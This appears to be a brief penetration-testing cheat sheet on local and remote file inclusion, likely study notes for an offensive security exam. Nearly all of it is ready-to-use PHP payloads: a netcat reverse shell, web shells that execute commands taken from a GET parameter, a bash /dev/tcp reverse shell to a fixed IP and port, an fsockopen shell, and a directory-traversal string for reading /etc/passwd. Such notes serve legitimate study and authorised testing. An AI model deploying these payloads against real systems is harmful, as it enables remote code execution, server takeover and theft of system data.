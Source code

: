 # LFI/RFI

Pentestmonkeys `/usr/share/webshells/php/php-reverse-shell.php`

```php
<?php echo shell_exec("nc $TARGET_IP -e /bin/sh") ?>
```

```php
<?php echo system($_GET["cmd"]);?>
<?php echo shell_exec($_GET["cmd"]);?>
```

### Reverse TCP shell without netcat

```php
<?php echo shell_exec('/bin/bash -i >& /dev/tcp/10.11.0.98/443 0>&1');?>
```

```php
<?php $sock=fsockopen("127.0.0.1",1337); exec("/bin/sh -i <&3 >&3 2>&3");?>
```

```text
../../../../../../../../../etc/passwd
```

## Notes

* Some versions of netcat does not support `-e` flag

## References

* [https://awakened1712.github.io/oscp/oscp-lfi-rfi/](https://awakened1712.github.io/oscp/oscp-lfi-rfi/)



